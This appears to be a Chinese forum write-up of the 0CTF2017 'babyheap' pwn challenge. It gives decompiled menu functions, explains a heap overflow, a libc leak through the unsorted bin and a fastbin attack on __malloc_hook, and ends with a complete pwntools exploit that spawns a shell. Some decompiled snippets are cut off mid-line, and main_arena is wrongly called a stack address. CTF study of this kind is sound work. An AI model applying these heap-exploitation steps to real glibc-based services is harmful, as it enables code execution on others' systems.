# [CTF] 0CTF2017 babyheap

- 原帖：https://www.52pojie.cn/forum.php?mod=viewthread&tid=1817311
- 抓取时间：2026-11-01T22:48:37

## 前言

新注册的论坛账号，我目前在做ctf pwn和reverse，未来打算做android和iot，在吾爱这边准备更新一些实战记录和一些比赛的wp。

本题知识点我在这里有写：[链接](https://bbs.kanxue.com/thread-277530.htm)。

## 0ctf2017:babyheap

### 检查文件信息



[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMzAwNXwyOTZiODBmN3wxNzkzNTczMzE1fDE2ODA4NnwxODE3MzEx&nothumb=yes) 2023-8-4 14:39 上传



[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMzAwNnw1MmJlNTcxY3wxNzkzNTczMzE1fDE2ODA4NnwxODE3MzEx&nothumb=yes) 2023-8-4 14:40 上传

`elf64`小端序程序，保护全开。

### 修改`rpath`

检测到编译环境为`GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609`



[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMzAwN3w1MGRjNzljZnwxNzkzNTczMzE1fDE2ODA4NnwxODE3MzEx&nothumb=yes) 2023-8-4 14:40 上传

所以修改`rpath`为`glibc2.23`



[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMzAwOHxiZDZkMTY5Y3wxNzkzNTczMzE1fDE2ODA4NnwxODE3MzEx&nothumb=yes) 2023-8-4 14:41 上传

### 试运行



[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMzAwOXwyMThmMjRlOHwxNzkzNTczMzE1fDE2ODA4NnwxODE3MzEx&nothumb=yes) 2023-8-4 14:41 上传

### 逆向分析

```c
//分配堆块函数
char *sub_B70()
{
  int fd; // [rsp+4h] [rbp-3Ch]
  char *addr; // [rsp+8h] [rbp-38h]
  unsigned __int64 v3; // [rsp+10h] [rbp-30h]
  __int64 buf[4]; // [rsp+20h] [rbp-20h] BYREF

  buf[3] = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  alarm(0x3Cu);
  puts("===== Baby Heap in 2017 =====");
  fd = open("/dev/urandom", 0);
  if ( fd 
```

```c
//Allocate函数
void __fastcall Allocate(__int64 a1)
{
  int i; // [rsp+10h] [rbp-10h]
  int v2; // [rsp+14h] [rbp-Ch]
  void *v3; // [rsp+18h] [rbp-8h]

  for ( i = 0; i  0 )
      {
        if ( v2 > 4096 )
          v2 = 4096;
        v3 = calloc(v2, 1uLL);//堆块内容初始化为1
        if ( !v3 )
          exit(-1);
        *(_DWORD *)(24LL * i + a1) = 1; //标记是否使用
        *(_QWORD *)(a1 + 24LL * i + 8) = v2;//标记大小Size
        *(_QWORD *)(a1 + 24LL * i + 16) = v3;//堆块地址
        printf("Allocate Index %d\n", (unsigned int)i);
      }
      return;
    }
  }
}

//结构体如下
struct Heap {
    double in_use;
    double size;
    void *heap;
};
```

```c
//Fill函数
__int64 __fastcall Fill(__int64 a1)
{
  __int64 result; // rax
  int v2; // [rsp+18h] [rbp-8h]
  int v3; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = sub_138C();
  v2 = result; //序号
  if ( (unsigned int)result  0 )//存在堆溢出漏洞
      {
        printf("Content: ");
        return sub_11B2(*(_QWORD *)(24LL * v2 + a1 + 16), v3);//分配的heap在结构体偏移16的位置。
      }
    }
  }
  return result;
}
```

```c
//Free函数
__int64 __fastcall Free(__int64 a1)
{
  __int64 result; // rax
  int v2; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = sub_138C();
  v2 = result;
  if ( (unsigned int)result 
```


```c
//Dump函数
int __fastcall Dump(__int64 a1)
{
  int result; // eax
  int v2; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = sub_138C();
  v2 = result;
  if ( (unsigned int)result 
```

## 3. 漏洞利用

### 4.1 泄露 `libc` 基址

首先申请 5 个 `0x71` 大小的堆块，对应序号为 `0,1,2,3,4`。和一个 `0x21` 大小的堆块来阻隔 `top_chunk`。

利用堆溢出修改 `chunk0` 时将 `chunk1` 的 `size` 修改为 `0x91`，`chunk1` 覆盖到 `chunk2` 的 `bk` 位置，将 `chunk2` 分割出 `0x51` 大小的堆块。

修改后结构如下：



图片.png (34.67 KB, 下载次数: 2)

[附件6](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMzAyM3wwMzdkYTVhMHwxNzkzNTczMzE1fDE2ODA4NnwxODE3MzEx&nothumb=yes)（2023-8-4 15:41 上传）

查看此时 `heap` 结构：



图片.png (294.21 KB, 下载次数: 2)

[附件7](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMzAyNnw4NmI0OGFiNnwxNzkzNTczMzE1fDE2ODA4NnwxODE3MzEx&nothumb=yes)（2023-8-4 15:43 上传）

此时 `free(1)` 将会把 `chunk1_0x91` 放进 `unsorted_bin`。


图片.png (52.02 KB, 下载次数: 3)

[附件8](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMzAzMHxkMmI2N2JhNHwxNzkzNTczMzE1fDE2ODA4NnwxODE3MzEx&nothumb=yes)（2023-8-4 15:45 上传）

再次申请 `0x68` 大小的空间将会从 `unsorted_bin` 分割 `0x71` 大小的堆块，并由 `Heap[1]` 管理。那么 `chunk2` 头部 `0x20` 大小的空间将留在 `unsorted_bin`，由于并没有将 `chunk2` 给 `free` 掉，所以 `chunk2_fd`、`chunk2_bk` 被修改为了栈地址（这题时 `main_arena++88`），此时输出 `chunk2` 内容即可获取一个栈地址。


图片.png (56.94 KB, 下载次数: 0)

[附件9](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMzAzMnxmNDM3ODcyOHwxNzkzNTczMzE1fDE2ODA4NnwxODE3MzEx&nothumb=yes)（2023-8-4 15:53 上传）

此时堆结构：



图片.png (485.03 KB, 下载次数: 0)

[附件10](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMzAzM3xmZmJlMjljZHwxNzkzNTczMzE1fDE2ODA4NnwxODE3MzEx&nothumb=yes)（2023-8-4 15:53 上传）

得到这个站地址后，可以计算他和 `libc` 基址的固定偏移。

`libc` 基址地址：



图片.png (98.06 KB, 下载次数: 1)

[附件11](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMzAzNHxlMTljZjE2N3wxNzkzNTczMzE1fDE2ODA4NnwxODE3MzEx&nothumb=yes)（2023-8-4 15:54 上传）

固定偏移：


图片.png (41.22 KB, 下载次数: 2)

[附件12](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMzAzNXw2YmQ4NjE0Y3wxNzkzNTczMzE1fDE2ODA4NnwxODE3MzEx&nothumb=yes)（2023-8-4 15:56 上传）

### 4.2 通过劫持 `__malloc_hook` 地址来执行 `one_gadget`

首先将 `chunk4` 放入 `fastbin`，然后通过堆溢出利用 `chunk3` 修改 `chunk4` 的 `fd` 指针来将包含 `malloc_hook` 真实地址的 `fake_fast` 链接进 `fastbins`。

包含 `malloc_hook` 的 `fake_fast`：



图片.png (290.05 KB, 下载次数: 2)

[附件13](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMzAzOHw3ZTg2NzljYXwxNzkzNTczMzE1fDE2ODA4NnwxODE3MzEx&nothumb=yes)（2023-8-4 16:05 上传）

修改后 `chunk` 结构：



图片.png (23.77 KB, 下载次数: 1)

[附件14](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMzA0NHwwMTdlZjgxNHwxNzkzNTczMzE1fDE2ODA4NnwxODE3MzEx&nothumb=yes)（2023-8-4 16:16 上传）

`fastbin` 结构：



图片.png (215.37 KB, 下载次数: 2)

[附件15](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMzA0NXw3NTFjZjZlNHwxNzkzNTczMzE1fDE2ODA4NnwxODE3MzEx&nothumb=yes)（2023-8-4 16:18 上传）

再次申请两次就可将 `fake_fast` 申请出来，并且 `fast_fast` 由 `Heap[6]` 管理。

此时将 `__malloc_hook` 地址改为 `one_gadget` 地址，随意申请一个堆块就可 `getshell`。

不难计算 `fake_fast` 的用户区 `0x13` 位置就是 `__malloc_hook` 地址。



图片.png (172.42 KB, 下载次数: 3)

[附件16](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMzA0OHw0NGQwZDMwYnwxNzkzNTczMzE1fDE2ODA4NnwxODE3MzEx&nothumb=yes)（2023-8-4 16:25 上传）

然后随意申请一个堆块就可 `getshell`。



图片.png (446.63 KB, 下载次数: 1)

[附件17](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMzA0OXwyYjE1MmIyZHwxNzkzNTczMzE1fDE2ODA4NnwxODE3MzEx&nothumb=yes)（2023-8-4 16:26 上传）

### 4.3 完整 `exp`

```python
from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h' ]

is_local = True
is_debug = True

if is_debug:
    context.log_level = 'debug'
else:
    context.log_level = 'info'

def connect():
    global r, elf, libc
    if is_local:
        r = process('./babyheap_0ctf_2017')
    else:
        r = remote('IP', port)
    elf = ELF('./babyheap_0ctf_2017')
    libc = ELF('/root/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')

def debug(gdbscript=""):
    if is_debug:
        gdb.attach(r, gdbscript=gdbscript)
        pause()
    else:
        pass

def alloc(size):
    r.recvuntil(b'Command:')
    r.sendline(b'1')
    r.recvuntil(b'Size:')
    r.sendline(str(size).encode())

def fill(index,size,content):
    r.recvuntil(b'Command:')
    r.sendline(b'2')
    r.recvuntil(b'Index:')
    r.sendline(str(index).encode())
    r.recvuntil(b'Size:')
    r.sendline(str(size).encode())
    r.recvuntil(b'Content:')
    r.send(content)

def free(index):
    r.recvuntil(b'Command:')
    r.sendline(b'3')
    r.recvuntil(b'Index:')
    r.sendline(str(index).encode())

def dump(index):
    r.recvuntil(b'Command:')
    r.sendline(b'4')
    r.recvuntil(b'Index:')
    r.sendline(str(index).encode())

def leak_libc():
    global libc_addr
    alloc(0x68) # 0
    alloc(0x68) # 1
    alloc(0x68) # 2
    alloc(0x68) # 3
    alloc(0x68) # 4
    alloc(0x18) # 5
    #debug()
    fill(0, 0x70, b'a'*0x68 + p64(0x91))
    fill(2, 0x20, b'\x00'*0x18 + p64(0x51))
    #debug()
    free(1)
    #debug()
    alloc(0x68) # 1
    #debug()
    dump(2)
    r.recvuntil(b'\n')
    libc_addr = u64(r.recv(8))-0x3c4b78
    log.info("main_arena:"+hex(libc_addr+0x3c4b78))
    log.success('libc_addr:'+hex(libc_addr))

def get_shell():
    #debug()
    free(4)
    fill(3,0x78,b'a'*0x68+p64(0x71)+p64(libc_addr+libc.sym['__malloc_hook']-0x23))
    #debug()
    alloc(0x68) # 4
    alloc(0x68) # 6
    fill(6,27,cyclic(19)+p64(libc_addr+0x4527a))
    debug()
    alloc(0x30)
    r.interactive()

def pwn():
    connect()
    leak_libc()
    get_shell()

if __name__=='__main__':
    pwn()
```
